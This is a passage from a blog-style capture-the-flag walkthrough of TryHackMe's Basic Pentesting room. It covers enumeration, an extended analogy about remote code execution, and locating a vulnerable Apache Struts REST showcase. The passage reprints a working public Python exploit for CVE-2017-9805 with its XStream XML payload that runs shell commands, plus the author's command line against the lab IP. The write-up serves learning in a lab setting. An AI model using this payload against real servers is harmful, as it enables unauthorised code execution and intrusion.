Welcome friends and foes. As promised, this blog post will cover alternative methods and techniques you can use to try to hack your way through the Try Hack Me room named Basic Pentesting. When I say 'alternative', yes, I mean there is another post covering what I would consider as the 'mainstream' way to get root on the room's machine. I strongly recommend you read that post before you move forward on your journey to read this one. Yes, I know the other post is long, and it's going to take more than just a hot second to read it (since quick reads seem to be the overall preference nowadays...), however, I promise you it will be worth it, especially because I am going to reference it a lot in this post to avoid having to just explain a bunch of stuff all over again. So go. Do it. I'll still be here when you're ready to come back.
With that beautiful introduction out of the way, I do want to go back on a few of my words from the other post (you know what they are, because you read it. Right?). In the introduction for the other post I mentioned how the description for the room, in my opinion, didn't really represent the hacking process very well. Just to refresh your memory, I will insert here an image containing said description so that we can discuss it for just a little longer.

There it is. This post is starting to look very similar to the first post I made regarding this hacking challenge. Anyway, the room description says that we have a machine that allows us to practice web app hacking and privilege escalation. When I did the challenge the first time, I hacked no web apps and the technique used to achieve privilege escalation was pretty simple. I therefore mentioned how the machine seemed much more like a password brute forcing and hash cracking challenge than it did a web app hacking challenge. But there is always more than one way to get to your destination, and after attempting to hack the machine once again, I was able to take a walk through that other road for this situation, and that led me to this alternative post. Maybe this was the way that the room creator always intended the challenge to be performed, considering the description, however, I must reluctantly say that this 'new' method can be considered a 'more troublesome' way to achieve the same goal as the other method. Why? Because it demands a little more thinking from the hacker's part. Brute force attacks will always be easier to perform when you consider the mental effort. Sure, it is exhausting and annoying if you don't have the right tools for it, but it's always easier to bust a door open than it is to survey a target, analyze the structure of said target in search of a possible weakness, craft tools and develop techniques to exploit such weakness, so on and so forth. It's the Hulk vs. Bruce Banner dilema. On the other hand, it is a lot more fun to get to your ultimate goal when performing more complex operations and using more detailed exploits. You get that sense of a job well done, and it is a lot more finessed. But enough diddle daddle! Let's hop into the step-by-step for this challenge.
I've talked about this step extensively on my other post, which you have of course read by this point, so let's just breeze past it this time, because there is so much I can say about this without being extremely redundant at this point. So...yeah. My IP address in the VPN was 10.6.67.212. Not all that important, but just in case you were wondering. Onwards!
I gave this step the same name I gave it on the first post involving this hacking challenge. Why? Because even though I didn't actually perform target recon/enumeration network wise the second time around, should it actually have been the first time, this step would be necessary. You always start with enumeration to know what services are available to you, ergo, what are your possible entry points into the machine. Once again, I am going to provide you with the image of my first post, which shows the results of an NMap scan. It won't be the first time you see this image, of course, because you have read the other post and already know what NMap is, as well as what information it brought us regarding this machine (am I getting annoying yet?).

Once again, we have that the most important ports we lay our eyes on here are ports 80 (HTTP), 445 (SMB) and 8080 (Tomcat). These ports are the most interesting ones for reasons that I already explained...I'm going to let you guess where exactly that was. I have a hunch you might already know. Last time, we kind of focused our energies on the first two ports, but this time, Tomcat, a web app server (for Java apps), will be the star of the show. But before we get too ahead of ourselves, let's continue our recon operation. One might argue that we could've just gone for Tomcat right from the beggining as Tomcat is usually a vulnerability pit, but calm your horses, because it is always better to perform a full recon to get all possible cards on the table, and save yourself some headaches. When you are thorough you are bound to find the easiest way in. Case in point, when performing a quick search for Tomcat 9.0.7 exploits we are able to find information on vulnerabilitiess documented for the Tomcat version installed in the target machine (you can check them out in more detail in the CVE details page for this version of Tomcat. As always, for those that are unaware of what a CVE is, here is a hopefully quick explanation: CVE stands for Common Vulnerabilities and Exposure and it is a common and public way that people have to document information on encountered vulnerabilities in their softwares/systems, so that a database containing such information can be built for future reference. It exists because it is in the interest of all seeking for more security to know such things. Imagine if people just decided to not document these kinds of things? Defending yourself from hackers would be a much more arduous task because then you would have to know all existing vulnerabilities yourself, and it's not like you can actually find them all by yourself, unless you install all softwares created by man in your network...which...let's be honest, why would you want to do that? So, a CVE is a way for vendors to formally and publicly disclose vulnearbilities related to their software in an organized and catalogued fashion. It is also a very efficient way for one to share information with their cyber peers about existent vulnerabilities. I bet you didn't think sharing would come in handy when your parents nagged you about it at 2 years old, but look at that, you have been proven wrong), vulnerabilities in the Tomcat server software itself that can be exploited. However, many of these vulnerabilities don't give us remote access to the machine or allow for remote code execution (most of them just result in DoS, which, mind you, is also a problem in itself, just not what we want in this situation), and the one that does also requires Tomcat to be installed in a Windows system, which NMap has already told us our target is not (bummer). So sure, you could have called it quits on your enumeration operation as soon as you saw the word 'Tomcat' flash on your screen, but let me give you some spoilers: there is an easier way in, provided indirectly by Tomcat, and all it takes to find it is being patient and enumerating a little bit more.
So, I will open an imaginary parenthesis here to explain something, and you can just skip it should you already know how what I am going to explain works (or if you just don't care). First things first: why is our ultimate goal do get remote access to the machine, meaning, why is our goal to connect to said machine from our computer in order to replicate behavior we would have should we be using the machine itself? Why not perform a denial of service exploit and just bring down the Tomcat service? Is that also not hacking? I mean, DoS attacks have been well known for wreaking havoc and bringing down Internet acessible services for some very important and influential networks, belonging to important and influential companies/countries. Well, we need to take into consideration the goal of the challenge, which is not to bring down the machine/service, but instead to get root access in the system. Most hacking challenges have this as their ultimate goal. Secondarily, I think I already mentioned this on the other post where I talk about this challenge (it's been almost one whole paragraph since I've mentioned it), but getting root on a machine means you can do whatever you want. You can cause a denial of service by shutting down the service directly or by corrupting all files it needs to function properly, you can read all files stored in the machine, you can write to all files stored in the machine, you can make the machine your puppet, essentially. So, being able to get this type of power means you can perform whichever other type of attack you want with a lot more ease. Sometimes, of course, you don't need to get root access to accomplish your ultimate goal. Maybe you just want to deface your enemie's website, for example. In this case, a 'simpler' vulnerability which allows you to do just that will work by itself. But if you are able to do more, why not do it? Greed is a sin we can't escape sometimes, and hackers are included in that bunch, so we aim for the gallon even if we only need the cup. For that reason we have that remote access and remote code execution vulnerabilities are usually ranked as the most dangerous in CVEs, with high scores associated to them. Give me the means, and I'll conquer the world, am I right?
With all of that said, I also opened up this parenthesis section to make something very clear, and that should and might enlighten some to a difference in concepts that will need to be well understood further on in this post: remote access and remote code execution are not the same. Seems pretty obvious considering that they have different names, right? However, it took me a little while to understand the difference between these two, and that's why I decided to start this discussion: to point out the subtleties. Remote access is pretty straight forward. You get access to the target machine through usage of the network, and get to perform operations in said machine as if you were a physically local user. As previously mentioned, for this to work, it all has to go through the network, but you usually can't tell because protocols and softwares are created to make this process look seamless, as if your own computer were the one you're connecting to. For that reason, you can do most of the things you would be able to, should you actually be locally using the remote computer you connected to. Remote code execution, on the other hand, is like a tiny snippet of a remote access. It's the vulnerability teasing you, giving you a taste of what could be, but allowing you to do just the bare minimum. Do not be fooled, however, because the vulnerability isn't actually that self aware, meaning that it will give you just one taste at a time, but at the same time it will allow you to repeat the whole taste testing ordeal several times. One bite at a time, you get to taste the whole cake. That is why this type of vulnerability has a high classification in the 'problematic' scale. What is it exactly, though? As the name says, remote code execution allows you to execute something in a remote machine. This 'something' is a single line of code. So, thinking about yourself and your Linux terminal activities, a RCE allows for everything that comes before an ENTER when you're typing the command to be executed. Well, that sounds like the same as remote access to me, since when I get a remote access shell I can only execute one line of command at a time. I counter that with a simple word: Vim. This is an example. When you open the Vim text editor, a graphical interface is presented to the user so that editing files can be easier. When you have remote access, you see that interface when you run the program. When you have remote command execution, you don't. Why? Because you execute one command and that's it. The target machine will execute Vim and will open the interface in the terminal for the user you executed the command as, however, that interface will not be 'returned' to you, and you can't use Vim as a regular remote access user would. Some RCE vulnerabilities don't even return you the answer to the execution of your command. That means you can run an ls command, for example, it will execute, but the answer won't be sent back to you. For that reason, exploiting an RCE and manuvering your way through the system is a bit harder than doing the same when you have remote access. All commands may work and execute in the system, but some of them may not work in regards to you achieving your goal through the usage of said command because you can't complete the operation. It's like logging in, performing a single action, say, opening a game up, and being forced to log out. With the session end, all that was executing in that user account is terminated, and when you log in, you need to start all over again. For our game example, it means you never get to play the game because as soon as you finish opening it, the system logs out and closes it, and there's not much you can do about it (sorry :/). To 'persist' and be able to force the system to execute commands on top of other commands you executed before, you might need to create files to save information. So, a simple example: with RCE you might not be able to execute a certain series of Python lines of code by simply using the command line interpreter, however, you can create a file on your first command, write something to that file on the second (using utilities such as echo since you won't be able to use Vim, Nano or Emacs. This command usually prints its argument to the standard output (which will most likely be the shell where the command itself was executed), however, using the same command line, you can redirect this to a file should you use the correct Bash syntax for it), and execute it in the third. It is more of hassle to get it done, but it can be done. To finish this off, I'll try to make an analogy. You are a thief who wants to steal some files from someone's house. The house, however is very well guarded, and you can't just waltz in and do whatever you please. By the way, said waltzing in would be your remote access situation. The tenants of the house, which are practicing for a play, decide to hold an event. They take a bunch of objects to their yard, and put up a sign that says: 'Choose something for me to do'. Their goal is to get people to give them scenes to improvise so that they can improve on their acting skills. However, the game should be limited only to the yard area, only use the yard objects and each participant only get's to choose one result. The game is going on fine, and people stop by to play it. Everyone follows the rules, and consequently all works out according to what is expected. You, being the mighty thief you are, realize after a certain time observing the game, that there is one of the residents that seems to have missed the rules. They arrived late, and all they know is that they need to perform a single action a stranger asks them to perform. The game had already started and no one really had the time to explain it to them. You, who wants access to the inside, can abuse that, because that is a vulnerability in the system, or, in this case, the whole game set up. The vulnerability is caused by the fact that the rules weren't completely presented to all players (misconfiguration), due to the fact that the residents who are providing this entertainment did not consider that people would stray away from the rules that they set. People always follow the rules if you ask them nicely, right? So, you decide to go play the game. Unfortunately, you only have one request until you have to wait at the end of the line to be able to play once again. You finally get to the front of the line and ask the resident actor which supposedly does not know all the rules: 'Go inside and grab me an onion'. You suspicions are confirmed when they go and do grab you the onion. This would be a remote code execution where you get to see the result of your operation. It could also happen that this resident knows that things inside the house can't leave the house, so they take the onion but only go with it as far as the front door. In this case, you can't know if there is an onion or not. Like the ls example I gave you earlier, you will need to find another way to get the information if there is an onion inside the house. So you go to the end of the line, and once your time is up again, you say 'If you have an onion on your kitchen, come out of the house singing'. If they come out of the house singing, you get your answer, if they don't, you also get your answer. Get my gist? Let's continue with the example a little while longer. You get in line once again and testing the waters you say: 'Bake me a cake'. The actor goes inside, since they will perform wherever the necessary objects are located, and heads to the kitchen. They do not know, however, how to bake a cake, and they need more instructions from you to be able to do so. However, they will only listen to the instructions, and they can only do so when they are in the kitchen, meaning you can't just hand them a recipe outside for them to use inside. There is your Vim situation. You want to confirm your cake is baked so you try the singing technique again, but for your dismay, the actor comes out mute. Powering through, you decide to divide and conquer. Instead of asking for a cake without being able to deliver the recipe, you decide to make the baking happen without the actor needing to consider the whole 'bake a cake action'. So you first ask them to grab 3 eggs from the refrigerator and put them in the counter. Next round you ask them to break the three eggs in a bowl. So on and so forth. Since each action is being 'saved' inside the house due to the fact that there is no one 'resetting' the state of the house, you are able to take the actor step-by-step through the process of baking a cake. Consider, however, that there is a cleaning lady that turns off all appliances in the house whenever the house is empty. You will never be able to get that cake, because the oven gets turned off everytime the actor leaves to give you the results. So, of course this situation is an analogy and not a real scenario, so we can consider many possible options. You can include 'wait for 30 minutes before leaving the house' to your request and that might solve your problem. You could also append a 'leave a note to the cleaning lady saying the oven is to be left on for the next 30 minutes' and that also may solve your problem. It will all depend on the software you're dealing with...erm...I mean the actors and cleaning ladies you are dealing with. Whichever path you choose, the cake is done and you get confirmation one way or another. Now, you want that cake to be handed to you, but objects inside the house won't leave the house. You do, however, realize that their mailbox is considered 'inside the house', so you make the actor package the cake and send it to you by mail. When you get home, you have an awesome cake waiting for you. And then you remember your mission was actually to steal some files and that a cake has nothing to do with it, but oh well, my goal is achieved and the analogy is almost complete. I finish it by saying that should you choose the right request, you get to enter the house yourself (you can gain remote access). You may ask the actor to send you a house key copy by mail. When you get the key, you are able to gain access to the house and steal the papers yourself. So there, everyone can be happy now and hopefully you get to understand RCE a little better through this analogy/example.
Phew! That was a long explanation! What was I talking about before this? Ah, yes! Enumeration! Now that we know the ports that are open on the system, we can start enumerating the services running in it. On to the next section!
Enumerating the HTTP service is most of the time the easier task, and it can end up giving you some juicy information. Usually websites are easy to access and usually websites don't have their configurations set up properly, with defaults hanging all over the place and allowing us to get more of a glimpse of the system than we should. Enumerating the Tomcat service is not that trivial of a task. For HTTP, all you do is send HTTP requests and try to possibly figure out hidden files or directories that are returned by the server. Analysis of the HTTP headers might also give you something to work with, as well as a page's HTML/Javascript source code. This is even easier to get access to because it is a resource that the system will willingly give to you when you ask for it. When we talk about Tomcat enumeration, we are talking about obtaining more information on the Java apps that it runs, as well as maybe some configuration information for the Tomcat service itself. However, all of which Tomcat provides can only be accessed through a management interface which requires a username and password. Should you be so lucky, we can have default configurations for these credentials and accessing the management page for the service is as simple as inputing tomcat:tomcat (username:password) in that login prompt. For this machine, however, it is not that easy, and logging into the interface is not the way to go when trying to enumerate the web apps being hosted by Tomcat. I think, however, the question still remains: why not enumerate Tomcat to try to figure out which web apps are running? After all, the Java services are presented to the user through Tomcat in the form of HTML, CSS, Javascript built pages. It is a web app, duh. Soooo, I don't really have a good answer for that. Considering you can access the Java based services through certain URL paths, sure, you could try to sniff out what are the services running by doing the same thing we do when enumerating directories in an HTTP service: you get a list of popular app URIs/paths for Tomcat and you test them all in a brute force attack to see which of them give you a positive response. That would probably work, and I probably would try something of the sort should my HTTP enumeration return me with nothing. However, going for HTTP seems like a simpler choice, at least in this case, because when I think of enumerating the Tomcat services, I think of a very huge list of possible outcomes. That is because sometimes you have apps that are internal apps running on the server, meaning that it isn't code for a well-known software, but instead code developed by the target entity for use in their systems and by their systems only. There is also the situation where a developer decides to switch up the regular path and simply use whatever name his heart desires to represent the service. It's a harder fish to reel in the correct way. When we are talking about HTTP and the directories you have on a server, it's a more well established structure that might yield results with more certainty. Maybe what I am saying makes no sense. Talking about this also made me think about the possibility of just going bonkers on Tomcat. The questions I pose as being asked by the readers are also questions I ask myself. So this is maybe a subject to look more into, because not always will we have information handed to us in a silver platter, like we had for this challenge. Did you like how I introduced the contents of the next paragraph there?
So, as per the methods presented in the first post of this ridiculously short series read by all that are reading this now, we enumerate the HTTP service on port 80 and figure out the 'hidden' developer directory, which holds two text files, acessible to all who know the URL that leads to these resources. File j.txt isn't all that important in this attempt at the challenge. This file is a file written by mysterious developer K to his mysterious colleague J, whose names are not at all a reference to the MIB movies (not Kay and Jay, as you would initially think). K tells J to change his password because the hash can be easily cracked. His password is too simple and with a common password list it can be easily discovered by a hacker. I am proud to say, however, that in this challenge attempt, no brute forcing or cracking had to be performed to get us to root. Why? Because instead of trying to figure out J's password by brute forcing the SSH service and take 3 hours to get it done, we decide to look at the contents of dev.txt instead. If you take a look at the image below, you can refresh your memory on what said contents were.

So there you have it. If you read the first entry top-down, you will see that K here gives us the information that there is an application called 'Struts', version 2.5.12, running in Tomcat. That last part is not explicit, however, considering that he hints that this application is a web app, we can deduce with 99% certainty that it will be running in Tomcat. We also get the information that he is running an example version of the web app, with the REST extension enabled. This is also very interesting because it leads me to believe that there are no extra configurations made to the web app. The 'example' version is something that comes together with the software package, and will probably run on defaults. Considering it is also a part of the software's 'starting package', I can easily download it myself and replicate this exact scenario in my own system in order to more easily find a possible exploit that would work on the target. That being said, I decided to look for exploits considering that I knew what version and format the Struts application was running: version 2.5.12 and with REST. Actually, wait. No. Before I decided to look for exploits, I decided to figure out what was Struts in the first place, because I had never heard of it. The PNG below shows the result of said search.
Maybe from the image you can understand why I was confused there for a second, and said I looked up exploits before looking up what the application actually was. Just by searching the application name and the specific version for it we already get many search results which include information on an exploit that can be used to get RCE in a system running Apache Struts on said version, using the REST extension. So I will be very frank here: I usually try to understand the basics behind how something works before I try to exploit it, however, I didn't even look too much into what is Apache Struts and what is the purpose for it. I have all that I need: the information that it is an Apache Tomcat web app and an exploit code that I can use to abuse the vulnerability that the web app has. Yes, I know. This is a script kiddie move. Why? I am simply grabbing an exploit someone else wrote, someone who understands the vulnerability, and without any knowledge on how anything works behind the curtains, I will use this exploit to try to get in. If anything goes wrong, the exploit doesn't work for one reason or another, my lack of understanding will make it a bit more difficult to troubleshoot the problems. But once again, I will do some foreshadowing by giving you explicit spoilers: this lack of interest of mine later came back to torment me, meaning my script kiddie hours for this exploit didn't last long, and I had too look into the exploit and the vulnerability in a little more detail to get it to work correctly.
This section reaches its end here. We enumerated the services, got some good information that led us to a possible exploit. As part of our enumeration we also found an exploit code that will be used in out next step (and just a fun fact: this vulnerability has it's own CVE entry. Woohoo! Search for CVE 2017-9805 and you will see it smiling for the pictures!). Should we have not found said code, this post would be a lot longer, because we would have to craft the exploit ourselves after thoroughly understanding how the vulnerability works. My college teachers, however, always told the class: 'there is no need to reinvent the wheel', which means that there is no need to create a code from scratch if you can use one that was already made and tested by someone else, and is proven to work correctly. Why reinvent the Dijkstra algorithm and reprogram it everytime you need to use it when you can instead use the code from a library, package, framework, repository, whatever it is you might have found for that programming language you are using? It's important to understand how Dijkstra works, that's why we study it in college/programming courses, but implementing it everytime you need to use it is going a little bit overboard. Same goes for the wheel. What I mean by all of that is: good thing we found a working exploit. It means we won't have to create the exploit from scratch. It is nice though, to take a look at the code and understand what it does so that you at least know what you are getting yourself into when you run it. Don't be a script kiddie! Also, do what I say, not what I do.
I will try to build this section in a way that it represents my actual train of thought while I was doing this challenge. So, yes, I do plan on explaining how the vulnerability works, although, I will be frank, it was kind of a ride to get there, and even after said ride I still don't completely understand it. The fact that I don't like Java all that much and have never programmed in Java out of college also helps. And just if this last bit of reasoning isn't clear on why it affects my understanding on the vulnerability, remind yourself that the vulnerable code is written in Java, as Apache Struts is a Java web app served with the help of Tomcat, which exists to work with Java web apps. Ok, with that being said, let us begin.
The exploit I chose to use to achieve my end goal of getting initial access to the machine is one that can be found on the Exploit Database website, which, as the name itself shows us, is a database for exploit codes that people develop to target numerous vulnerabilities that were discovered for a plethora of software out there. You can search for exploits there and you can post exploits, meaning that in many occasions you might find more than one exploit for the same vulnerability. So, be sure to check out Exploit-DB for yourselves, as it is an amazing resource that can be used when performing research and ethical hacking (please use your powers for good), and also check out the code for the exploit used for this challenge through this link here. Credits go to user WARFLOP, who created the exploit code. Being a script kiddie once again, I didn't even look at the exploit in too much detail before attempting to run it. Since the code was written in Python and usually people who develop using Python provide the user with a help menu on how to use the script, I decided to start my understanding from that point. The help menu output for the mentioned exploit code can be seen in the image below.
As you can see the help menu is pretty simple, but it shows us how to use the exploit and it also gives us an example which will be essential here to take us one step forward. Why? Because so far the only thing I had done was discover that K had installed a vulnerable Apache Struts web app on the system and found and exploit for it. However, what still needed to be done was for me to find the page where Struts was running on in our target, or else, how was I even going to be able to exploit it? The help menu helps in more than one way by giving us the information that the URI for Struts will have a format similar to /struts2-rest-showcase/orders. I tried simply entering this URI into the browser to try to find this page on the server, which is our target. No luck, however, as I received nothing in return. I decided to research a little bit more to see if I could find a default name for the Apache Struts 2.5.12 'home page'. I could have also installed Struts in my own environment and deployed the example scenario to replicate the same (or at least very similar) set up of the target machine, and consequently be able to get the exact URI I was searching for. Sometimes, however, it is best to try the simplest ideas first, because they may yield faster results. Don't be scared of trying more difficult things, but also don't go for difficult when you very well might find your answer with a simpler method, am I right? Anyway, while researching for the default Apache Struts 2.5.12 path, I came across a blog post which was showing how the vulnerability could be exploited, a guide. Unfortunately, people in the Internet are not all that interested on talking about Apache Struts itself after the vulnerability was discovered, myself included. All we want is the drama and the chaos, just like in real life. So most of the primary search results that are shown regarding this version of Apache Struts involves information on the vulnerability, or a way to exploit it, and there is not much that information on the application itself. Is that good or bad? I can't really tell. 'Talk badly about me, as long as your talking about me' is a saying from my country, and could very well be applied here. But moving on, the blog post, while explaining how to exploit the vulnerability, showed the following image, which was the management interface of Tomcat for the server they were using as a base for the test.
The image in the blog post itself points to the URI for the installed version of Apache Struts. The version they used is not the same one that was theoretically installed in the target for this challenge. That is, however, not a huge roadblock, as I could just test this URI in the target switching the last 0 and making it a 2. Surprise, surprise: we got a hit.
Knowing now the URL for the vulnerable web app, we could finally test out the exploit. I started said test by doing the simplest thing I could do: trying out the example command, but changing the URI to fit my specific situation (meaning that I needed to change the domain name which I considered as simply the IP address for the machine - 10.10.143.13 - throughout the challenge, and I needed to change the path to the resource that was the Apache Struts REST plugin page that I had just figured out). The image below shows my execution of the command and the result that followed.
So, by executing the exploit as python3 42627.py http://10.10.143.13/struts2-rest-showcase/orders id, the goal was to execute the Linux command id on the machine that was hosting the URL provided to the exploit code as argument. However, as you can see by the image above, the response to this command was far from the simple user ID and group ID information one would expect receiving after executing the Linux id command. It was also not a very user friendly response, considering that this response was much much bigger than what is shown here. The complete response returned by the exploit execution can be seen below, in very tiny letters so that it would all fit the screen.

Yes, I know what you are thinking because I also thought it. 'Yeesh, am I supposed to read all that? Hopefully that's the output for when the exploit doesn't work and when it does work, the output will be more user friendly and contain the response to the command given by the target system'. The laziness was real: I'd rather have the exploit not work than read this output. But actually not really, because after seeing this response I decided to (finally) take a look at the code (took me long enough), to verify if this was expected behavior for a successful exploitation. The fact that the response is a HTTP 500 response, indicative of an internal server error, shows me that something unexpected might've happened to the server, which was expecting some type of cookie cutter request but got instead something like the execution of a command. The execution of a command which was not a function that was going to return a valid response to the user, resulting in the server telling said user instead that it had some kind of trouble ('please try again in a few minutes'). So, I am going to put the code for the exploit down below so that I can show you what exactly I was looking for at this point in the game.
1 # Exploit Title: Struts 2.5 - 2.5.12 REST Plugin XStream RCE
2 # Google Dork: filetype:action
3 # Date: 06/09/2017
4 # Exploit Author: Warflop
5 # Vendor Homepage: https://struts.apache.org/
6 # Software Link: http://mirror.nbtelecom.com.br/apache/struts/2.5.10/struts-2.5.10-all.zip
7 # Version: Struts 2.5 – Struts 2.5.12
8 # Tested on: Struts 2.5.10
9 # CVE : 2017-9805
10
11 #!/usr/bin/env python3
12 # coding=utf-8
13 # *****************************************************
14 # Struts CVE-2017-9805 Exploit
15 # Warflop (http://securityattack.com.br/)
16 # Greetz: Pimps & G4mbl3r
17 # *****************************************************
18 import requests
19 import sys
20
21 def exploration(command):
22
23 exploit = '''
24 <map>
25 <entry>
26 <jdk.nashorn.internal.objects.NativeString>
27 <flags>0</flags>
28 <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
29 <dataHandler>
30 <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
31 <is class="javax.crypto.CipherInputStream">
32 <cipher class="javax.crypto.NullCipher">
33 <initialized>false</initialized>
34 <opmode>0</opmode>
35 <serviceIterator class="javax.imageio.spi.FilterIterator">
36 <iter class="javax.imageio.spi.FilterIterator">
37 <iter class="java.util.Collections$EmptyIterator"/>
38 <next class="java.lang.ProcessBuilder">
39 <command>
40 <string>/bin/sh</string><string>-c</string><string>'''+ command +'''</string>
41 </command>
42 <redirectErrorStream>false</redirectErrorStream>
43 </next>
44 </iter>
45 <filter class="javax.imageio.ImageIO$ContainsFilter">
46 <method>
47 <class>java.lang.ProcessBuilder</class>
48 <name>start</name>
49 <parameter-types/>
50 </method>
51 <name>foo</name>
52 </filter>
53 <next class="string">foo</next>
54 </serviceIterator>
55 <lock/>
56 </cipher>
57 <input class="java.lang.ProcessBuilder$NullInputStream"/>
58 <ibuffer/>
59 <done>false</done>
60 <ostart>0</ostart>
61 <ofinish>0</ofinish>
62 <closed>false</closed>
63 </is>
64 <consumed>false</consumed>
65 </dataSource>
66 <transferFlavors/>
67 </dataHandler>
68 <dataLen>0</dataLen>
69 </value>
70 </jdk.nashorn.internal.objects.NativeString>
71 <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
72 </entry>
73 <entry>
74 <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
75 <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
76 </entry>
77 </map>
78 '''
79
80
81 url = sys.argv[1]
82
83 headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0',
84 'Content-Type': 'application/xml'}
85
86 request = requests.post(url, data=exploit, headers=headers)
87 print (request.text)
88
89 if len(sys.argv) < 3:
90 print ('CVE: 2017-9805 - Apache Struts2 Rest Plugin Xstream RCE')
91 print ('[*] Warflop - http://securityattack.com.br')
92 print ('[*] Greatz: Pimps & G4mbl3r')
93 print ('[*] Use: python struts2.py URL COMMAND')
94 print ('[*] Example: python struts2.py http://sitevulnerable.com/struts2-rest-showcase/orders/3 id')
95 exit(0)
96 else:
97 exploration(sys.argv[2])
So, for those not all that acquainted with Python, let me remind you that Python defines blocks of code through indentation. The def at the beginning is defining a new function called exploration. Everything that has more indentation than this definition line is a part of the function. The function, therefore, ends in line 87. The if-else statement and associated lines that follow have the same horizontal alignment as the function, meaning they are not 'below' it, they are at the same level. Since the if-else is not 'inside' any other less indented instruction lines/definition lines, it means the Python code will begin execution here. It is the starting point for the code because it is the block with less indentation that is not a function. With that made clear, let's see what kind of results the branching might give us. If the program is called with less than 3 arguments, print the help menu and exit. This matches the behavior we saw when executing the code. When I simply entered the command python3 42627.py -h, the program gave me the help menu. Not really because it recognized the -h option, which I saw was clearly not implemented when analysing this code, but because I used the command incorrectly, with less arguments than I should have (2, the Python source code file that was the exploit and the -h 'option', instead of the supposed 3 which were the Python code, the URL of the target and the command to be executed on said target). Should I, however, input all arguments correctly, which was what happened the second time around we executed the exploit, the program will call function exploration. Because of that, we go back to line 21 to try to understand how this said function work. So, first things first, it sets up a string variable called exploit which will incorporate the function parameter command. I will not analyze the contents of the string itself for now, as it is more related to how the exploit works and I plan to explain that a little bit later. So, if you are patient enough to wait, we will eventually get there, I promise. Anyway, you can verify that command is incorporated to the exploit string by checking line 40 in the code. There is the string concatenation in all of its glory. What is command though? If we go back to the else statement in line 96, we can see that exploration is called with the sys.argv[2] argument. All arrays start in position 0, meaning that the argument is actually the 3rd argument used when the exploit code is called with Python. This third argument is the command we request be executed in the target system by RCE (as previously mentioned). So, even though we are not analysing what this huge string is quite yet, we do know that it is related to the command itself that we want executed in the target machine. It is the malicious payload that exploits the vulnerability itself. That being said, on line 81 we see that the URL we established as being the target URL for the exploit is recovered and stored in url. Following that, HTTP header options are established and stored in headers, including the option Content-Type: application/xml (remember 